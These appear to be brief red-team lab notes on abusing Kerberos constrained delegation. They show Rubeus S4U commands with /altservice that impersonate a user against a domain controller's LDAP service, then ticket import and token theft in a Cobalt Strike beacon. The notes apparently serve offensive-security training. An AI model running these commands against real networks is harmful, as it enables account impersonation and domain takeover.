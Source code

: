 # Constrained Delegation



## Introduction





## Alternate Service Name

## Rubeus /altservice

```sh
beacon> execute-assembly C:\Tools\Rubeus.exe s4u /impersonateuser:cfoxy 
/msdsspn:cifs/dc-2.rotta.lab /altservice:ldap /user:sql-2$ /ticket:<ticket> /nowrap

[*] Action: S4U

...


beacon> execute-assembly C:\Tools\Rubeus.exe createnetonly /program:C:\Windows\System32\cmd.exe /domain:ROTTA /username:cfoxy 
/password:Password123! /ticket:<ticket>

[+] ProcessID       : 2580
[+] Ticket successfully imported!

...

beacon> steal_token 2580
```
